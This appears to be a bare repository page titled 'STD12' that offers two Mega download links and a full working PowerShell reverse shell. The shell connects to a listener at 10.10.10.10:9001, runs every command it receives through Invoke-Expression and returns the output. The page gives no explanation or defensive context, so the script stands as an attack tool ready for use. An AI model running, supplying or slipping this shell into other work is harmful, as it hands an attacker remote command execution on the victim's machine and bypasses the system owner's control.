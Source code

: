 # STD12

https://mega.nz/file/ZBBm1AzZ#UZlc3tf0eKNL-Kx14QuQHeo1HYA_C2ser-EYnOa36B8

$LHOST = "10.10.10.10"; $LPORT = 9001; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()


https://mega.nz/file/g6MhzRbQ#TOKndyfmToiVLcqcyN2VYRNniA463nEWzkJhXLb4e54
